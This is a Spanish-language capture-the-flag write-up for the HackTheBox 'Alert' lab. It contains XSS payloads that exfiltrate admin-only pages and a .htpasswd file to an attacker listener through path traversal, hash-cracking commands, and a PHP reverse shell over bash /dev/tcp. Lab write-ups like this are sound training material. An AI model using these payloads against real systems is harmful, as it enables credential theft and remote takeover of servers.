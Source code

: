 ```yaml
---
title: "Alert"
date: "2025-03-24T00:04:43-05:00"
type: "maquinas"
draft: false
tags: ["Apache-server", "Port-Fowarding", "XSS", "Cross-Site-Scripting", "Markdown"]
---
```


## Descripción:
Maquina en la cual se encuentra una visualizador de archivos Markdowns, vulnerable a xss cross site scripting, mediante una opcion para compartir los archivos .md subimos un codigo con la intencion de hacer un phishing y contactar con el administrador para enumerar información sensible.

Ya con un usuario y contraseña se realiza un escalamiento de privilegios mediante un port forwarding debido a un servicio que estaba corriendo como root.

# Enumeración

Con nmap vamos a revisar que puertos estan abiertos y que servicios estan corriendo.

```java
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.36.72 -oG allPorts
```

<a href="https://imgur.com/JhER1OH"><img src="https://i.imgur.com/JhER1OH.png" title="source: imgur.com" /></a>

```java
nmap -sCV -p22,80 10.129.36.72 -oN target
```

<a href="https://imgur.com/kMelVQ1"><img src="https://i.imgur.com/kMelVQ1.png" title="source: imgur.com" /></a>

Podemos ver que en el puerto 80, en la segunda línea, nos aparece la URL del servicio HTTP, por lo que la vamos a agregar al archivo /etc/hosts junto con la IP para poder abrir la página.

```jsx
sudo nano /etc/hosts  
```

Vamos a buscar subdominios con un código de estado diferente a 301 utilizando la herramienta wfuzz.

```jsx
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.alert.htb" http://alert.htb/ | grep -v "301" 
```

<a href="https://imgur.com/rFvhWSc"><img src="https://i.imgur.com/rFvhWSc.png" title="source: imgur.com" /></a>

Vemos que encontramos un subdominio, el cual también se debe agregar al archivo /etc/hosts como `statistics.alert.htb.`

<a href="https://imgur.com/GLzvLHW"><img src="https://i.imgur.com/GLzvLHW.png" title="source: imgur.com" /></a>

En la página que está en el puerto 80, podemos subir archivos Markdown (.md) y enviar una solicitud al administrador.

En el subdominio nos pide una contraseña y no podemos ingrasar

<a href="https://imgur.com/8JFEjs2"><img src="https://i.imgur.com/8JFEjs2.png" title="source: imgur.com" /></a>

Después de buscar, encontramos que podemos ejecutar algunas acciones mediante el archivo Markdown. Además, si subimos el archivo y oprimimos el botón de compartir, podemos enviarle el enlace del archivo a alguien mas.

Podemos comprobar que funciona con una alert en JavaScript:

```jsx
<!-- XSS with regular tags -->
<script>alert(1)</script>
<img src=x onerror=alert(1) />
```

<a href="https://imgur.com/YB2Chwk"><img src="https://i.imgur.com/YB2Chwk.png" title="source: imgur.com" /></a>

# Explotación xss

Podemos probar a obtener información de una de las rutas a las cuales no tenemos acceso, como  `messages`.

```jsx
<script>
fetch("http://alert.htb/messages/")  // Realiza la solicitud GET
  .then(response => response.text())  // Convierte la respuesta en texto
  .then(data => {
    // Luego, realiza la solicitud POST con los datos obtenidos
    return fetch("http://IP:4444/", {
      method: "POST",
      body: data  // Envia los datos obtenidos en el cuerpo de la solicitud POST
    });
  })
  .then(response => response.text())  // Espera la respuesta de la solicitud POST
  .then(result => {
    console.log(result);  // Muestra la respuesta de la solicitud POST
  })
  .catch(error => {
    console.error('Error:', error);  // Maneja errores de las solicitudes
  });
</script>
```

Lo que vamos a hacer es intentar que el administrador abra el archivo por nosotros y nos envíe el contenido, utilizando el código anterior y con nc recibir la respuesta.

Después de subir el archivo, lo que hacemos es darle a 'Compartir' y copiar la URL para luego preparar Netcat y enviar la solicitud al administrador.

```jsx
nc -lvnp 4444
```

<a href="https://imgur.com/OWaQjfE"><img src="https://i.imgur.com/OWaQjfE.png" title="source: imgur.com" /></a>

Pero nos indica lo mismo: que no tenemos permisos.

Si buscamos en Google archivos de configuración predeterminados para un servidor Apache, encontramos la siguiente ruta: `/etc/apache2/sites-enabled/000-default.conf`. Entonces, vamos a repetir lo anterior, cambiando la ruta por un archivo PHP llamado messages.php, seguido del archivo de configuración.

```jsx
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../../etc/apache2/sites-enabled/000-default.conf")  // Realiza la solicitud GET
  .then(response => response.text())  // Convierte la respuesta en texto
  .then(data => {
    // Luego, realiza la solicitud POST con los datos obtenidos
    return fetch("http://IP:4444/", {
      method: "POST",
      body: data  // Envia los datos obtenidos en el cuerpo de la solicitud POST
    });
  })
  .then(response => response.text())  // Espera la respuesta de la solicitud POST
  .then(result => {
    console.log(result);  // Muestra la respuesta de la solicitud POST
  })
  .catch(error => {
    console.error('Error:', error);  // Maneja errores de las solicitudes
  });
</script>
```

Vemos que hay una ruta a lo que podría ser un archivo con contraseñas llamado `.htpasswd`. Entonces, vamos a hacer el mismo proceso, pero con este nuevo archivo: `http://alert.htb/messages.php?file=../../../var/www/statistics.alert.htb/.htpasswd`

Y recibimos un archivo en el que, al parecer, está un usuario con su hash. Si quieren saber qué tipo de hash es, pueden buscar 'Hash Identifier' y pegarlo, para descifrarlo vamos a usar el siguiente comando:

```bash
# Comando para hashcat
hashcat -m 1600 -a 0 pass.txt /usr/share/wordlists/rockyou.txt
# Comando para John
john --format=md5crypt-long --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<a href="https://imgur.com/gTdsulp"><img src="https://i.imgur.com/gTdsulp.png" title="source: imgur.com" /></a>

Y obtenemos la contraseña del usuario Albert.

# Root

Nos conectamos como Albert mediante SSH.

```jsx
ssh albert@IP
```

Ya estando dentro del sistema, podemos observar dos cosas. Si usamos el comando id, veremos que nuestro usuario pertenece a un grupo peculiar: uid=1000(albert), gid=1000(albert), groups=1000(albert), 1001(management).

Haciendo uso del siguiente comando, podremos buscar todos los archivos que tengan que ver con dicho grupo en específico.

```jsx
find / -type f -group management 2>/dev/null
```

La salida del comando anterior nos reporta que nuestro usuario tiene permisos completos en `/opt/website-monitor/config/configuration.php`.

Por la ruta absoluta del archivo, podemos inferir que existe otro servicio web local (ya que no fue reportado en nuestro escaneo con nmap).
Vemos los puertos internos en escucha con netstat -tuln:

<a href="https://imgur.com/3mQLSxz"><img src="https://i.imgur.com/3mQLSxz.png" title="source: imgur.com" /></a>

Si usamos ps aux, podremos observar que el servicio está corriendo como root, por lo que procedemos a hacer port forwarding (asegúrate de que tu puerto {port} no esté en uso).

```jsx
ssh -L {port}:localhost:8080 albert@IP
```

Después de revisar `/opt/website-monitor/config/configuration.php` más a detalle, resulta que nuestro usuario tiene permisos completos sobre toda la carpeta /config. A juzgar por lo simple de la aplicación, deberíamos poder acceder a cualquier archivo dentro del directorio `/website-monitor`. Con nuestros permisos de escritura en la carpeta /config, podemos crear un archivo con una revshell PHP alojado en dicha carpeta para obtener una shell como root.

```php
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/{IP}/{PORT} 0>&1'"); ?>
```

Para activar el archivo .php, solo es necesario ingresar su ruta en el navegador:

`http://localhost:{port}/config/payload.php`.

<a href="https://imgur.com/lEUrw3A"><img src="https://i.imgur.com/lEUrw3A.png" title="source: imgur.com" /></a>
